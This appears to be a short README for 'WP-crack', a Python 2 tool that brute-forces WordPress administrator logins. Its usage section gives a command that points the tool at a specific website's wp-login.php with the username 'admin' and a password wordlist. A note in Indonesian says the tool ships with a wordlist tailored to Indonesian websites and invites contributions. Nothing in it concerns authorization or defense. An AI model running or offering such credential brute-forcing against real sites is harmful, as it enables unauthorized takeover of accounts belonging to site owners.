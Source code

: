 # WP-crack

# Usage :

cd WP-crack

python2 WP-crack.py -h http://neokopoi.com/wp-login.php -u admin -P wordlist.txt

# NB :

dilengkapi dengan wordlist khusus web indonesia bilang ingin di tambah atau di kembangkan silahkan

